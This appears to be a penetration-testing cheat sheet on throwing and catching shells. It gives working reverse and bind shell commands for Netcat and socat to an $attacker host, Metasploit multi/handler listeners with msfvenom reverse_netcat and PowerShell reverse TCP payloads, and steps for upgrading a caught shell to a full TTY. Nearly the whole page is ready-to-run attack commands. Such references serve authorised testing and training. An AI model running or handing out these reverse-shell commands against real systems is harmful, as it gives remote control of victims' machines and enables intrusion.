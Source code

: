 # Shells

## Netcat

The TCP/IP Swiss Army Knife, Netcat is the gold standard for learning how to throw and catch shells. This guide covers creating reverse and bind shell connections with Netcat. Other reverse/bind shell commands are provided as a convenience. Commonly, the installed version of `nc` does not support the `-e` flag to specify a file or command to execute after connection. For more information see the manpage for Netcat or try [static binaries](https://github.com/andrew-d/static-binaries)

### Reverse

Target attaches shell to attacker listener. The listener and shell are on the opposite side

```bash
# Catch (Listener)
nc -nlvp 443  # Linux Attacker

# Throw (Shell)
nc -e cmd.exe $attacker 443    # Windows Target
nc -e /bin/bash $attacker 443  # Linux Target
```

### Bind

Attacker attaches to target bind shell. The listener and shell are on the same side

```bash
# Throw (Listener, Shell)
nc -nlvp 443 -e cmd.exe    # Windows Target
nc -nlvp 443 -e /bin/bash  # Linux Target

# Catch
nc $target 443  # Linux Attacker
```

## Socat

 Useful for establishing two bidirectional byte streams and transfers data between hosts. Supports certificates, tunneling and more

### Reverse

```bash
# Catch (Listener)
socat -d -d TCP4-LISTEN:443 STDOUT  # Linux Attacker

# Throw (Shell)
socat TCP4:$attacker:443 EXEC:cmd.exe    # Windows Target
socat TCP4:$attacker:443 EXEC:/bin/bash  # Linux Target
```

#### Reverse TTY

```bash
# Catch (Listener)
socat TCP4-LISTEN:443 FILE:`tty`,raw,echo=0  # Linux Attacker

# Throw (Shell) :: Linux Target
socat TCP4:$attacker:443 EXEC:'/bin/bash -li',pty,stderr,setsid,sigint,sane 
```

### Bind

```bash
# Throw (Listener, Shell)
socat -d -d TCP4-LISTEN:443 EXEC:cmd.exe    # Windows Target
socat -d -d TCP4-LISTEN:443 EXEC:/bin/bash  # Linux Target

# Catch
socat TCP4:$target:443 STDIN  # Linux Attacker
```

## Multi-handler (Metasploit)

```bash title="Linux target (Netcat)"
# Catch (Listener)
# Linux Attacker, Linux Target
msfconsole -q -x "
use exploit/multi/handler;
set payload cmd/unix/reverse_netcat;
set LHOST $lhost;
set LPORT ${lport:-443};
exploit"

# Throw (Shell)
msfvenom -p cmd/unix/reverse_netcat LPORT=${lport:-443} LHOST=$lhost  # Linux Target
```

```bash title="Windows target (PowerShell)"
# Catch (Listener)
# Linux Attacker, PowerShell Target
msfconsole -q -x "
use exploit/multi/handler;
set payload windows/x64/powershell_reverse_tcp;
set LHOST $lhost;
set LPORT ${lport:-443};
exploit"

# Throw (Shell)
msfvenom -p windows/x64/powershell_reverse_tcp LPORT=${lport:-443} LHOST=$lhost  # PowerShell Target
```

## PTY Upgrade

Upgrade shell to pseudo teletype. Consider using alternate shells by inspecting `/etc/passwd` on linux target host. For example, consider `/bin/sh` instead of `/bin/bash`

### Python

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Magic Shell Upgrade

```bash
# Linux Attacker
echo $TERM
stty -a

# Linux Target
python -c 'import pty; pty.spawn("/bin/bash")'
    Ctrl-Z

# Linux Attacker
stty raw -echo  # send special chars over tty
fg

# Linux Target
reset
export SHELL=bash
export TERM=xterm
stty rows <rows> columns <columns>
```

!!! note ""

    ### Utility Function

    Preventing mistakes during shell upgrade is important. An incorrectly typed number or character can greatly decrease the usability of your shell. Run this function in your local terminal and copy/paste to the remote terminal to alleviate possible mistakes when upgrading your shell

    ```{.bash .editor title="magic shell upgrade" .copy}
    magic() {
      exports="export SHELL=/bin/bash; export TERM=xterm;"
      printf "$exports stty rows %d columns %d;\n" $(tput lines) $(tput cols)
    }
    ```

    ```{.console title="example output"}
    export SHELL=/bin/bash; export TERM=xterm; stty rows 69 columns 217;
    ```

## Troubleshooting

Throwing shells can sometimes be problematic. Test your connectivity using an ICMP listener

```bash
tcpdump -i tun0 icmp and src $rhost # ping-listener
```
